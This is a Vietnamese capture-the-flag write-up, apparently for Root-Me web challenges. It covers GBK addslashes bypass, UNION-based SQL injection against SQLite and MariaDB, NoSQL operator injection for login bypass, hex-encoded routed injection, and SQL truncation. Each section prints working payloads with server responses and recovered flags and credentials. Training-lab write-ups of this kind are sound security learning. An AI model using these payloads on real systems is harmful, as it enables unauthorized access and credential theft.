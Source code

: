 ## 41. SQL injection - Authentication - GBK
- GBK là phần ký tự Trung Quốc giản thể. GBK bao gồm tất cả ký tự Trung Quốc được định nghĩa trong unicode.
- Thường thì bên server sẽ sử dụng để bypass hàm addslashes().
- addslashes() dùng để thêm một dấu gạch chéo ngược (\\) phía trước các ký tự là dấu nháy kép, dấu nháy đơn và dấu gạch chéo ngược trong chuỗi.
- Do đó nếu thêm dấu ' vào thì nó sẽ thành \\' thêm slashes vào.
- Vì vậy giải pháp là chuyển thành GBK thì sẽ bypass được.
- Đầu tiên họ cho trang login thì chuyển login thành mảng để xem lỗi và họ báo lỗi dùng addslashes().
```js
login[]=admin&password=admin
```
- Vì kí tự %bf%5c hay %af%5c là ký tự Trung Quốc nên ta chỉ gần thêm %bf thì hàm sẽ thêm %5c(\\) vô sau và trở thành ký tự Trung Quốc.
```js
-- -: là comment trên mysql
': là %27
payload: login=%bf' or 1 = 1 -- -&& password = admin
Ấn chuyển hướng trang =>
Congratz! The validation password is: iMDaFlag1337!
```

## 42. SQL injection - String
- Đầu tiên tìm lỗi thì thấy ở thanh search khi nhập dấu ' báo lỗi  SQLite3::query(): nên ta biết họ dùng SQLite3.
- Tìm kiếm số bảng thì thấy có 2 bảng.
```js
payload: recherche = 1' order by 3--
=> bị lỗi nên có 2 bảng.
```
- Khai thác union query tìm kiếm tên bảng tìm được bảng news và users.
```js
payload: recherche=1' union select NULL,sql from sqlite_master--
```
- Rồi xem thông tin users
```js
payload: recherche=1' union select username,password from users--
=> username = admin , password = c4K04dtIaJsuWdi
```

## 47. NoSQL injection - Authentication
- Mở đầu thì thấy form đăng nhập thì đây là lỗi về nosql.
- Bật burp suite thao tác cho dễ.
- Đầu tiên vẫn dùng admin và admin thì nhận về bị bad request.
- Dùng cú pháp của nosql xem thử.
```js
GET /web-serveur/ch38/?login[$ne]=admin&pass[$ne]=admin HTTP/1.1

$ne: là so sánh không bằng (khác)
You are connected as : test
```
- Chuyển sang so sánh với test xem.
```js
GET /web-serveur/ch38/?login[$ne]=test&pass[$ne]=admin
You are connected as : admin
```
- Có nghĩa là ngoài test và admin còn một số user khác nên dùng $lt(lest than) và $gt(greater than) để xem khoảng ở giữa.
```js
GET /web-serveur/ch38/?login[$lt]=test&login[$gt]=admin&pass[$ne]=admin
You are connected as : flag{nosqli_no_secret_4_you}
```

## 50. SQL injection - Numeric
- Đầu tiên họ cho 1 form đăng nhập sau khi dò thì tìm được lỗi sql trên thanh url và dùng SQLite3.
- Đầu tiên vẫn kiểm tra số cột có thể tấn công.
```js
news_id=1 order by 10--
Warning: SQLite3::query(): Unable to prepare statement: 1, 1st ORDER BY term out of range - should be between 1 and 3 in /challenge/web-serveur/ch18/index.php on line 80
1st ORDER BY term out of range - should be between 1 and 3
```
- Có vẻ là có 3 cột.
```js
news_id=1 union select 1,2,3--
News
2
3
=> Chỉ có thể tấn công vào cột 2,3.
```
- Tiếp tra số bảng
```js
news_id=1 union select NULL,NULL,sql from sqlite_master--


CREATE TABLE news(id INTEGER, title TEXT, description TEXT)
CREATE TABLE users(username TEXT, password TEXT, Year INTEGER)
```
- Vô đọc bảng users thôi.
```js
news_id=1 union select NULL,username,password from users--

username = admin
password = aTlkJYLjcbLmue3
```

## 51. SQL Injection - Routed
- SQL Injection - Routed là cách tiêm vào để thoát được 2 query lồng nhau do Routed lấy kết quả của query trước để làm tài nguyên cho câu query sau.
- Tìm thì thấy lỗ hổng ở thanh search. Vì là query lồng nhau nên tìm số bảng đầu tiên.
```js
login='union select 1' order by 10 -- - -- -

Attack detected!
```
- Vì key order by đã bị FILTER nên tìm hiểu thì có thể dùng mã hex để bypass. Qua thử từng cái thì tìm được có 2 cột.
```js
login='union select 1' order by 3 -- - -- -
=> login='union select 1' 0x276f726465722062792033202d2d202d -- -
Unknown column '3' in 'order clause'
```
- Sau khi thử select 1,2 thì có thể khai thác được cả 2 cột.
- Tiếp đến tìm tên DB có thể xem cheat sheet ở đây
##### https://portswigger.net/web-security/sql-injection/cheat-sheet
```js
login='union select 'union select NULL,@@version-- - -- -
=> login='union select 0x27756e696f6e2073656c65637420404076657273696f6e2e4e554c4c2d2d202d -- -

[+] Requested login: ' union select 0x27756e696f6e2073656c656374204e554c4c2c404076657273696f6e2d2d202d -- -<br>
[+] Found ID: <br>
[+] Email: 10.3.34-MariaDB-0ubuntu0.20.04.1<br>
```
- Vì MariaDB khá tương đồng với MySQL nên dùng cheat sheet của MySQL luôn.
- Tìm tên bảng.
```js
login='union select ' union select NULL,table_name from information_schema.tables where table_schema = database() -- - -- -
=> login = 'union select ' 0x27756e696f6e2073656c656374204e554c4c2c7461626c655f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d61203d2064617461626173652829202d2d202d  -- -

[+] Requested login: ' union select 0x27756e696f6e2073656c656374204e554c4c2c7461626c655f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d61203d2064617461626173652829202d2d202d -- -<br>
[+] Found ID: <br>
[+] Email: users<br>
```
- Hiện tên cột trong bảng user
```js
login='union select ' union SELECT NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'-- - -- -
=> login = 'union select ' 0x2720756e696f6e2053454c45435420312c67726f75705f636f6e63617428636f6c756d6e5f6e616d65292046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73205748455245207461626c655f6e616d65203d20277573657273272d2d202d  -- -

[+] Found ID: 1<br>
[+] Email: id,login,password,email<br>
```
- Hiện login và password là xong.

```js
login='union select 'union SELECT NULL,group_concat(login,'-',password) FROM users-- - -- -
=> login = 'union select ' 0x27756e696f6e2053454c454354204e554c4c2c67726f75705f636f6e636174286c6f67696e2c27202d20272c70617373776f7264292046524f4d2075736572732d2d202d  -- -

[+] Email: admin - qs89QdAs9A,jean - superpass,michel - mypass<br>
```

## 52. SQL Truncation
- Truncation nghĩa là cắt bớt input.
- Đọc source code thì có phần gợi ý về bảng user
```js
<!--
CREATE TABLE IF NOT EXISTS user(   
	id INT NOT NULL AUTO_INCREMENT,
    login VARCHAR(12),
    password CHAR(32),
    PRIMARY KEY (id));
-->
```
- Thì trang web có cho 2 path đăng kí và đăng nhập. Đầu tiên đăng kí tài khoản admin thì nó báo đã tồn tại nên việc bây giờ là bypass admin.
- Vì cột login chỉ có 12 kí tự nên nếu ta điền vượt quá thì nó sẽ tự động cắt bớt nên sẽ điền như sau.
```js
login = admin       aaaa
password = 12345678
=> admin: 5 ký tự nên cần thêm 7 ký tự trắng nữa là được   

Well done ! Flag de validation / Validation flag : J41m3Qu4nD54Tr0nc
```


